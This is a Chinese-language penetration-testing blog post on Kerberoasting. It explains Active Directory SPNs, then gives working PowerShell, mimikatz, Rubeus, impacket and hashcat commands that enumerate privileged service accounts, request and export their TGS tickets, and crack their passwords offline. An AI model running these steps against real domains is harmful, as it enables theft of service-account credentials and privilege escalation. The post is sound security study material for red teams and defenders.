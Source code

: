 ```yaml
---
title: "Kerberos协议之Kerberoasting和SPN"
date: 2020-11-13T11:51:28+08:00
draft: false
tags:
- Kerberos
- Kerberoasting
- SPN
series:
- Windows协议
categories:
- 渗透测试
---
```


填坑
<!--more-->

在之前Kerberos的TGS_REQ & TGS_REP过程中提到，只要用户提供的票据正确，服务就会返回自身hash加密的tgs票据，那么如果我们有一个域用户，就可以申请服务的tgs票据，本地爆破服务hash得到服务密码，这个过程叫做Kerberoasting。而在域中，服务通过spn来作为唯一标识，所以本文介绍的是Kerberoasting和spn。

# SPN简介
SPN是服务器上所运行服务的唯一标识，每个使用Kerberos的服务都需要一个SPN

SPN分为两种，一种注册在AD上机器帐户(Computers)下，另一种注册在域用户帐户(Users)下

当一个服务的权限为Local System或Network Service，则SPN注册在机器帐户(Computers)下

当一个服务的权限为一个域用户，则SPN注册在域用户帐户(Users)下

# SPN的格式

```
serviceclass/host:port/servicename
```
1. serviceclass可以理解为服务的名称，常见的有www, ldap, SMTP, DNS, HOST等
2. host有两种形式，FQDN和NetBIOS名，例如server01.test.com和server01
3. 如果服务运行在默认端口上，则端口号(port)可以省略

我这里通过 `setspn -A MSSQLSvc/DM.test.local:1433 sqladmin` 注册一个名为MSSQLSvc的SPN，将他分配给sqladmin这个域管账户

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/69653a0d-d2dd-7bbd-134f-a8a877061a65.png)

# SPN查询
spn查询实际上是通过ldap协议查询的，那么当前用户必须是域用户或者是机器账户。

```powershell
setspn -q */*
setspn -T test.local -q */*
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/2e857d13-5733-97e4-954d-eaf8ce9e6adc.png)

CN=Users的是域账户注册的SPN，CN=Computers是机器账户。

域内的任意主机都可以查询SPN，任何一个域用户都可以申请TGS票据。而我们爆破的话应该选择域用户进行爆破，因为机器用户的口令无法远程链接。

那么Kerberoasting思路如下：
1. 查询SPN寻找在Users下并且是高权限域用户的服务
2. 请求并导出TGS
3. 爆破

# Kerberoasting利用

首先需要寻找有价值的SPN

## 使用powerview

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

```powershell
Get-NetUser -spn -AdminCount|Select name,whencreated,pwdlastset,last
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/5dea4c8e-7615-4184-2141-4588b6f452f8.png)

## 使用powershell模块Active Directory
Active Directory只在域控的powershell上有

```powershell
import-module ActiveDirectory
get-aduser -filter {AdminCount -eq 1 -and (servicePrincipalName -ne 0)} -prop * |select name,whencreated,pwdlastset,lastlogon
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/7b40cdcc-0d0c-20d5-5dcd-06acce35ae08.png)

可以用三好学生师傅导出来的 https://github.com/3gstudent/test/blob/master/Microsoft.ActiveDirectory.Management.dll



```powershell
import-module .\Microsoft.ActiveDirectory.Management.dll
```

## 使用kerberoast

powershell: https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1

vbs: https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.vbs

参数如下：

```
cscript GetUserSPNs.vbs
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/e3c5db29-295a-e241-f06c-e4d698886921.png)

## 请求TGS
请求指定服务的tgs

```powershell
$SPNName = 'MSSQLSvc/DM.test.local'
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/abfee6e8-7bfe-abcf-2e1c-691c5679dab2.png)

请求所有服务的tgs

```powershell
Add-Type -AssemblyName System.IdentityModel  
setspn.exe -q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  
```
## 导出TGS
```
kerberos::list /export
```
## 破解TGS
https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py

```
./tgsrepcrack.py wordlist.txt test.kirbi
```

## Invoke-Kerberoast
不需要mimikatz，直接导出hash为hashcat能破解的。

https://github.com/EmpireProject/Empire/blob/6ee7e036607a62b0192daed46d3711afc65c3921/data/module_source/credentials/Invoke-Kerberoast.ps1

```powershell
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | fl
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/d09867c5-e8b1-4b00-7b75-2f5dcfd9efa0.png)

hashcat

```
hashcat -m 13100 /tmp/hash.txt /tmp/password.list -o found.txt --force
```

## Rubeus
```
Rubeus.exe kerberoast
```

## impacket
1. https://github.com/maaaaz/impacket-examples-windows/
2. https://github.com/SecureAuthCorp/impacket

```
python .\GetUserSPNs.py -request -dc-ip 172.16.33.3 -debug test.local/jack
```

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/b9ec9ebf-035d-816b-24cd-6e8a5fb25223.png)

hashcat直接跑
# 参考
1. https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting/
2. https://uknowsec.cn/posts/notes/%E5%9F%9F%E6%B8%97%E9%80%8F-SPN.html


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**